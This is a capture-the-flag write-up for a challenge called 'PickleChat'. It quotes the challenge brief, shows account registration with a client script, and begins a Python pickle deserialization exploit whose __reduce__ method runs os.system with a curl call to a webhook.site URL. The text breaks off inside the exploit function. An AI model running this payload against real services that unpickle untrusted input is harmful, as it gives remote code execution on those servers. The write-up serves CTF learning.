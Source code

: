 ![](/assets/img/uploads/20231027225052.png)

## PickleChat

### Description

Thanks for taking on this project! Our new app, PickleChat, is about to change the world. We're making encrypted comms an absolute snap! We're pretty early in development but we'd love a security assessment for our prototype.  
  
Please pentest our prototype application and let us know if you find any gnarly bugs.  
  
We don't have much in the way of documentation to provide to you, sorry! Our devs have been too busy to get that together. We're going to give you the client test suite and a few PEM files to perform the test. You'll have to infer from the code how to interact with the server.  
  

I start by registering an account on it using an OpenSSL RSA public/private key pair:

```powershell
python .\client.py --url 'http://challenge.ctf.games:30348'  --register skullhat,skullhat_public_key.pem
{'message': 'User skullhat registered'}
```

By going through the source code seeing that it serialized the message and then sent it to the endpoint `/send-message`

I used pickle payload to write a POC and get the flag by serializing **malicious** object, but it doesn't work!

```python
import requests
import pickle
import base64
import os

url = 'http://challenge.ctf.games:30514/send-message'

payload = f'curl https://webhook.site/e2cacc1b-297f-4627-a6b5-4c17db349910'

class RCE:
    def __reduce__(self):
        cmd = payload
        return os.system, (cmd,)

def exploit():
```